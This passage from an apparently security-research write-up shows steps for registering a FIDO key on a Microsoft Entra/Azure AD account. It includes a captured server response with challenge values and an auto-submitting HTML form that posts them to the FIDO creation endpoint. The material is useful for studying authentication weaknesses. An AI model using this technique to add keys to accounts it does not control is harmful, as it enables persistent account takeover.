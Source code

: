 Response contains cannary, serverChallenge and other stuff.
```
HTTP/1.1 200 OK
[cut]

)]}',
{
    "Data": "{\"provisionUrl\":\"https://login.microsoft.com/925c2cd8-a177-41a5-93f3-1257ffd75111/fido/create\",\"requestData\":{\"canary\":\"[cut]"]\",\"serverChallenge\":\"[cut]",\"userId\":\"T0Y62CxcknehpUGT8xJX_9dTNKREdZKBNCqeKxFe3H83dJVZUMU9nrlO6ULkw_j9je_Y\",\"userIconUrl\":null,\"memberName\":\"user@insecure.technology\",\"userDisplayName\":\"user\",\"postBackUrl\":\"https://account.activedirectory.windowsazure.com:443/securityInfo/newfido\",\"authenticator\":\"cross-platform\"}}",
    "ErrorCode": 0,
    "Type": 12,
    "VerificationContext": null,
    "VerificationState": 1
}
```

### Step 6-8
Since we want to add a new FIDO key we need a webauthn interface. The easiest solution is to perform this steps in a browser. To do this a HTML page is built from the step 7 returned parameter data. The page will perform the HTTP Post request with the required parameters.

Example HTML site
```
<html>
  <body>
    <form action="https://login.microsoft.com/925c2cd8-a177-41a5-93f3-1257ffd75111/fido/create" method="POST">
      <input type="hidden" name="canary" value="[cut]" />
      <input type="hidden" name="ExcludeNextGenCredentialsJSON" value="[]" />
      <input type="hidden" name="serverChallenge" value="[cut]" />
      <input type="hidden" name="userId" value="A0Y62CxcknehpUGT8xJX_9dTNKREdZKBNCqeKxFe3H83dJVZUMU9nrlO6ULkw_j9je_Y" />
      <input type="hidden" name="userIconUrl" value="None" />
      <input type="hidden" name="memberName" value="user@insecure.technology" />
      <input type="hidden" name="userDisplayName" value="user" />
      <input type="hidden" name="postBackUrl" value="https://account.activedirectory.windowsazure.com:443/securityInfo/newfido" />
      <input type="hidden" name="authenticator" value="cross-platform" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```
